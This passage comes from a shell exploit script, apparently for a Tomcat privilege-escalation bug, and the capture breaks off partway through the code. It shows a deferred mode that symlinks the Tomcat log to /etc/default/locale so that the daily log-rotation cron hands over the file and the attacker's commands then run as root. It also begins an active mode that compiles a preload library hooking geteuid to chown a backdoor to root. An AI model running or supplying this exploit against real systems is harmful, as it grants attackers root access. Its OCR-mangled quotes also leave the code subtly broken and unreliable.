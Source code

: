 ```
# restarted and file owner gets changed.

if [ “$mode” = “deferred” ]; then

rm -f $TOMCATLOG && ln -s /etc/default/locale $TOMCATLOG

if [ $? -ne 0 ]; then

echo -e “\n[!] Couldn’t remove the $TOMCATLOG file or create a symlink.”

cleanexit 3

fi

echo -e  “\n[+] Symlink created at: \n`ls -l $TOMCATLOG`”

echo -e  “\n[+] The current owner of the file is: \n`ls -l /etc/default/locale`”

echo -ne “\n[+] Keep an eye on the owner change on /etc/default/locale . After the Tomcat restart / system reboot”

echo -ne “\n    you’ll be able to add arbitrary commands to the file which will get executed with root privileges”

echo -ne “\n    at ~6:25am by the /etc/cron.daily/tomcatN log rotation cron. See also -active mode if you can’t wait ![:wink:](../img/72b158ac013b9bc9875813ca4ffe6fc1.png ":wink:")

\n\n”

exit 0

fi

# [ Active exploitation ]

trap ctrl_c INT

# Compile privesc preload library

echo -e “\n[+] Compiling the privesc shared library ($PRIVESCSRC)”

cat <<*solibeof*>$PRIVESCSRC

#define _GNU_SOURCE

#include <stdio.h>

#include <sys/stat.h>

#include <unistd.h>

#include <dlfcn.h>

uid_t geteuid(void) {

static uid_t  (*old_geteuid)();

old_geteuid = dlsym(RTLD_NEXT, “geteuid”);

if ( old_geteuid() == 0 ) {

chown("$BACKDOORPATH", 0, 0);

```